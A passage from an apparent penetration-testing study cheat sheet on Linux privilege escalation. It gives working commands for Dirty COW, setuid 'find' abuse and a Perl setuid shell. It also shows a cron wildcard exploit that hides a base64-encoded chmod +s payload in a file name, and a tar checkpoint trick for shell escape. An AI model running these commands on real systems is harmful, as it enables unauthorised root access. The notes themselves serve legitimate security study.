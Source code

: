   ```
- Dirty COW
  - https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  - https://dirtycow.ninja/
  - "Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka 'Dirty COW.'"
- See the general services that are running. For example, you may have found several web ports open during the initial phase, and found different services. See if there are any CVEs or exploits for PE

### find with exec
- Also known as "Abusing Setuid Binaries"
- `find /home/username/Desktop -exec "/usr/bin/bash" -p \;`
- See more here: [find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)

### find PE

- Example cron job running clean-tmp.sh:
  ```
  jane@assignment:~$ cat /usr/bin/clean-tmp.sh 
  #! /bin/bash
  find /dev/shm -type f -exec sh -c 'rm {}' \;
  ```
  - Exploit:
    ```
    jane@assignment:~$ touch /dev/shm/'$(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA==|base64 -d|bash)'
    jane@assignment:~$ bash -p
    ```

### Abusing capabilities
- `/usr/sbin/getcap -r / 2>/dev/null` enumerate capabilities
  - Search for `cap_setuid+ep`, meaning that setuid capabilities are enabled, effective and permitted
- Search what you need in [GTFOBins](https://gtfobins.github.io/)
  - Example with Perl: `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`


### Escape shell

- [With tar](https://gtfobins.github.io/gtfobins/tar/#shell)
  1. create an sh with a nc command for a reverse shell > name 'exploit.sh'
  2. `touch ./"--checkpoint=1"`
  3. `touch ./"--checkpoint-action=exec=bash exploit.sh"`
- https://vk9-sec.com/linux-restricted-shell-bypass/
- https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

### Docker

**Simple Docker cheatsheet**
```shell
docker-compose up					run docker
docker ps						see running docker
docker ps -a						see every docker in the machine
docker images						see docker images installed
docker stop <docker-id>					stop a docker
docker exec -it <docker-id> bash			enter a docker
docker rmi <docker-id>					remove a docker
```
